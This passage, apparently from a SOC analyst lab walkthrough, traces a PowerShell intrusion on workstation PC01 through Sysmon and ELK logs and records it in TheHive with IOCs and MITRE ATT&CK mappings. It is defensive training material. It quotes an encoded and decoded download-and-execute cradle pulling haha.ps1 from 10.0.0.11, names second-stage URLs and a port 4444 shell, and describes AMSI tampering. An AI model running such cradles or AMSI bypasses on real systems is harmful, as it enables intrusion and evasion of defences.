

**Forensic Assessment:**
* Configures TLS 1.2 and automatically inherits default system proxy credentials (`[Net.CredentialCache]::DefaultCredentials`) to ensure outbound connectivity through corporate proxies.
* Uses `IEX` + `DownloadString` to pull **two additional second-stage scripts** over port **`8080`**:
  1. `http://10.0.0.11:8080/rJ8V0D4hquf54Q/2ZoeCggfq`
  2. `http://10.0.0.11:8080/rJ8V0D4hquf54Q`
* This confirms that **`haha.ps1` is an initial stager** designed to pull the secondary post-exploitation payload into memory.

---

#### 🔍 Event 4 Analysis — Timestamp: `Nov 17, 2025 @ 11:21:34.301`

Inspect the follow-up event at **`Nov 17, 2025 @ 11:21:34.301`**:



**Forensic Assessment:**
* Shows a heavily obfuscated PowerShell script utilizing string concatenation (`'S'+'ystem.Management.Automation.Am'+'siUtils'`, `'EnableScriptB'+'lockLogging'`, reflection on `NonPublic,Static` fields) to tamper with **AMSI (Antimalware Scan Interface)** and **Script Block Logging** before executing the main implant.

---

### Step 4: Correlating Sysmon Process Creation Events (Event ID 1)

Next, query **Sysmon Process Creation events (`Event ID 1`)** around the same timestamp to determine *how* PowerShell was initially launched on `PC01`:

```text
winlog.channel:"Microsoft-Windows-Sysmon/Operational" AND winlog.event_id:1
```

Inspect the log at timestamp **`Nov 17, 2025 @ 11:21:33.293`**:

| Sysmon EID 1 Field | Value |
| :--- | :--- |
| `UtcTime` | `2025-11-17 11:21:33.285` |
| `ProcessId` | `5492` |
| `Image` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| `CommandLine` | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADAALgAwAC4AMQAxAC8AaABhAGgAYQAuAHAAcwAxACcAKQA=` |
| `CurrentDirectory` | `C:\Users\sarah\` |
| `User` | `PC01\sarah` |
| `ParentImage` | `C:\Windows\explorer.exe` |



**Decoding the Base64 `-EncodedCommand`:**
```text
Encoded: SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADAALgAwAC4AMQAxAC8AaABhAGgAYQAuAHAAcwAxACcAKQA=
Decoded: IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.11/haha.ps1')
```
This proves that **`explorer.exe`** (interactive desktop shell or Run dialog under user **`sarah`**) launched `powershell.exe` with `-EncodedCommand` to execute the Stage-1 download cradle.

---

### Step 5: Tracing Sysmon Network Connections (Event ID 3)

Now query **Sysmon Network Connection events (`Event ID 3`)** to verify actual network communication from `PC01`:

```text
winlog.channel:"Microsoft-Windows-Sysmon/Operational" AND winlog.event_id:3
```

Inspect the three network connection logs generated at **`11:21:35.229`**, **`11:21:36.264`**, and **`11:21:36.264`**:

#### 1. Connection 1 — Port `80` (`11:21:35.229`)
* **Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* **User:** `PC01\sarah`
* **SourceIP / Hostname:** `10.0.0.50` (`PC01.research.security.local`), SourcePort: `49751`
* **DestinationIP / Port:** **`10.0.0.11`** : **`80`** (`http`) — *Retrieving `haha.ps1`*



#### 2. Connection 2 — Port `8080` (`11:21:36.264`)
* **Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* **User:** `PC01\sarah`
* **SourceIP / Hostname:** `10.0.0.50` (`PC01.research.security.local`), SourcePort: `49752`
* **DestinationIP / Port:** **`10.0.0.11`** : **`8080`** (`http-alt`) — *Retrieving secondary payload `/rJ8V0D4hquf54Q/2ZoeCggfq`*



#### 3. Connection 3 — Port `4444` (`11:21:36.264`)
* **Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* **User:** `PC01\sarah`
* **SourceIP / Hostname:** `10.0.0.50` (`PC01.research.security.local`), SourcePort: `49754`
* **DestinationIP / Port:** **`10.0.0.11`** : **`4444`** — *Establishing C2 / reverse shell session*



> [!WARNING]
> **Triage Conclusion:**  
> `powershell.exe` on victim workstation **`PC01` (`10.0.0.50`)** under user **`sarah`** initiated three sequential TCP connections to suspected attacker host **`10.0.0.11`** over ports **`80`**, **`8080`**, and **`4444`**. We have confirmed True Positive suspicious/malicious behavior requiring immediate documentation and escalation to SOC Level 2.

---

### Step 6: Logging into TheHive Case Management Platform

Switch to the **TheHive** tab (or open `http://localhost:9000` in Firefox) and log in with your SOC Level 1 analyst credentials:
* **Username:** `soc1@syntrix.com`
* **Password:** `pass123`



---

### Step 7: Creating the Incident Case in TheHive

1. Click on **Create case** $\rightarrow$ **Empty case**.



2. Populate the case fields with the following structured triage metadata:

| Case Field | Value to Enter |
| :--- | :--- |
| **Title** | `Suspicious PowerShell Activity Triggering Remote Script Execution` |
| **Date** | Current date and time |
| **Severity** | **`HIGH`** |
| **TLP** | **`TLP:AMBER`** *(Limited sharing within organization and clients on a need-to-know basis)* |
| **PAP** | **`PAP:AMBER`** *(Only passive checks allowed; third-party queries permitted, no direct target interaction)* |
| **Tags** | `powershell`, `scriptblock-logging`, `encoded-command`, `remote-script-execution`, `living-off-the-land` |
| **Description** | `Multiple PowerShell events were observed in ELK, showing script block execution initiated on a workstation. The commands retrieved remote PowerShell scripts from a host and executed them in memory, leveraging obfuscation and encoding techniques. Network connections were observed originating from PowerShell, suggesting staged payload delivery and potential malicious behavior.` |

3. Skip the "Tasks" section for now and click **Confirm**.



4. Your new incident case (**Case #1**) is now initialized.



---

### Step 8: Registering All 8 Forensic Observables & IOCs

Navigate to the **Observables** tab inside the case and click the **`+`** button to register each of the **8 observables** identified during triage.



#### Complete Master Reference Table of All 8 Observables:

| # | Observable Role | Type | Value | TLP / PAP | Is IOC | Sighted | Sighted At | Ignore Similarity | Tags | Description |
| :-: | :--- | :--- | :--- | :---: | :---: | :---: | :--- | :---: | :--- | :--- |
| **1** | **Suspected Attacker Host IP** | `ip` | `10.0.0.11` | `TLP:Amber`<br>`PAP:Amber` | **Yes** | **Yes** | `17/11/2025 @ 11:21:33` | **No** | `attacker`, `powershell` | Internal IP used as the source server hosting remote PowerShell scripts accessed by the affected workstation. |
| **2** | **Target Workstation** | `hostname` | `PC01` | `TLP:Green`<br>`PAP:Amber` | **No** | **Yes** | `17/11/2025 @ 11:21:33` | **Yes** | `victim-endpoint`, `workstation`, `windows` | Workstation observed executing suspicious PowerShell scripts and initiating network connections. |
| **3** | **User Involved** | `other` | `sarah` | `TLP:Amber`<br>`PAP:Amber` | **No** | **Yes** | `17/11/2025 @ 11:21:33` | **Yes** | `user-activity`, `possible-account-compromise` | Account executing suspicious PowerShell commands; may be compromised or misused. |
| **4** | **Malicious Script Download URL** | `url` | `http://10.0.0.11/haha.ps1` | `TLP:Amber`<br>`PAP:Amber` | **Yes** | **Yes** | `17/11/2025 @ 11:21:33` | **No** | `downloader`, `powershell`, `script-execution` | URL used to retrieve and execute PowerShell script directly in memory. |
| **5** | **Follow-On Payload Download URL** | `url` | `http://10.0.0.11:8080/rJ8V0D4hquf54Q/2ZoeCggfq` | `TLP:Amber`<br>`PAP:Amber` | **Yes** | **Yes** | `17/11/2025 @ 11:21:34` | **No** | `payload`, `staged-execution`, `remote-script` | Secondary script download likely containing the actual payload. |
| **6** | **Detected Script Filename** | `filename` | `haha.ps1` | `TLP:Amber`<br>`PAP:Amber` | **Yes** | **Yes** | `17/11/2025 @ 11:21:33` | **No** | `powershell-script`, `suspicious-file`, `memory-execution` | Remote PowerShell script executed directly in memory; likely used as initial stager. |
| **7** | **PowerShell Execution Command** | `other` | `IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.11/haha.ps1')` | `TLP:Amber`<br>`PAP:Amber` | **Yes** | **Yes** | `17/11/2025 @ 11:21:33` | **No** | `lotl`, `powershell`, `encoded-command`, `memory-execution` | Suspicious command showing in-memory execution of remote script using built-in system utilities. |
| **8** | **Network Ports Observed** | `other` | `80, 8080, 4444` | `TLP:Green`<br>`PAP:Amber` | **No** | **Yes** | `17/11/2025 @ 11:21:35` | **Yes** | `network-traffic`, `powershell`, `remote-script` | Multiple outbound network connections initiated via PowerShell to suspected attacker-controlled host, involving ports 80 (standard web), 8080 (alternate web / potential staging), and 4444 (commonly used for remote shells or C2-style communication). |

1. Enter **Observable 1 (`10.0.0.11`)** and click **Save and add another**:



2. Enter **Observable 2 (`PC01`)** and click **Save and add another**:



3. Continue adding Observables 3 through 8 using the table above, then click **Confirm**. All **8 Observables** will now appear in the case list:



---

### Step 9: Mapping MITRE ATT&CK TTPs to the Case

1. Navigate to the **TTPs** tab and click the **`+`** button to attach MITRE ATT&CK procedures.



2. Set the **Catalog** to `Enterprise Attack` and **Occur date** to `17/11/2025 @ 11:21:33`, then attach the following **3 MITRE ATT&CK Techniques**:

| Tactic | Technique ID & Name | Operational Justification |
| :--- | :--- | :--- |
| **Execution** | **`T1059.001` — PowerShell** | PowerShell used to execute scripts remotely and in memory (`IEX` + `DownloadString`). |
| **Defense Evasion** | **`T1027` — Obfuscated Files or Information** | Base64 `-EncodedCommand` + hidden window parameters (`-nop -w hidden -e`) + AMSI/logging obfuscation. |
| **Lateral Movement** | **`T1570` — Lateral Tool Transfer** | Malicious PowerShell stagers and follow-on payloads transferred laterally from internal host `10.0.0.11`. |

* **Adding TTP 1 (`Execution` $\rightarrow$ `T1059.001 - PowerShell`):**



* **Adding TTP 2 (`Defense Evasion` $\rightarrow$ `T1027 - Obfuscated Files or Information`):**



* **Adding TTP 3 (`Lateral Movement` $\rightarrow$ `T1570 - Lateral Tool Transfer`):**

